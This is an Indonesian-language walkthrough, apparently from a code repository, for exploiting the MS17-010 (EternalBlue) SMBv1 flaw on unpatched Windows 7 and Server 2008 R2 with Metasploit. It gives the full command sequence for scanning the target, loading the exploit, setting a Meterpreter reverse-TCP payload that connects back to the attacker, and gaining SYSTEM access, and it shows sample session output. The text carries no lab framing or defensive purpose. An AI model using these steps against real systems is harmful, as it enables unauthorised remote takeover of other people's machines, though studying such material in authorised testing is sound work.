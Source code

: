 # Walkthrough: Eksploitasi MS17-010 (EternalBlue)

Dokumen ini menjelaskan langkah-langkah untuk mengeksploitasi kerentanan SMBv1 pada sistem Windows menggunakan modul EternalBlue di Metasploit.

**Target**: Mesin Windows 7 / Windows Server 2008 R2 (tanpa patch keamanan MS17-010)
**Tujuan**: Mendapatkan akses shell Meterpreter dengan hak akses SYSTEM.

---

### Tahap 1: Persiapan dan Pengecekan

Pastikan Anda berada di jaringan yang sama dengan target. Pertama, kita akan memverifikasi apakah target rentan menggunakan modul *scanner* auxiliary.

1.  **Jalankan Metasploit**
    ```bash
    msfconsole
    ```

2.  **Cari dan Gunakan Modul Scanner**
    ```
    msf6 > search ms17-010
    msf6 > use auxiliary/scanner/smb/smb_ms17_010
    ```

3.  **Atur Opsi**
    Ganti `192.168.1.10` dengan IP address target Anda.
    ```
    msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.10
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run
    ```

4.  **Analisis Hasil**
    Jika output menunjukkan `Host is likely VULNERABLE to MS17-010`, Anda bisa melanjutkan ke tahap eksploitasi.

### Tahap 2: Eksploitasi

Sekarang kita akan menggunakan modul exploit untuk mendapatkan akses.

1.  **Gunakan Modul Exploit**
    ```
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    ```

2.  **Lihat Opsi yang Diperlukan**
    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
    ```
    Kita perlu mengatur `RHOSTS` dan `LHOST`.

3.  **Atur Opsi Exploit**
    * `RHOSTS`: IP address mesin target.
    * `LHOST`: IP address mesin Anda (mesin penyerang).
    * `PAYLOAD`: Kita akan menggunakan Meterpreter reverse TCP 64-bit.

    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.10
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.10.1
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    ```

4.  **Jalankan Exploit**
    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
    ```

### Tahap 3: Pasca-Eksploitasi

Jika berhasil, Anda akan melihat pesan `WIN` dan sesi Meterpreter akan terbuka.

[] Sending encoded stage (206403 bytes) to 192.168.1.10
[] Meterpreter session 1 opened (10.10.10.1:4444 -> 192.168.1.10:49157) at ...

meterpreter >


Anda sekarang memiliki kontrol penuh atas mesin target. Verifikasi hak akses Anda:
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM


**Walkthrough selesai.**

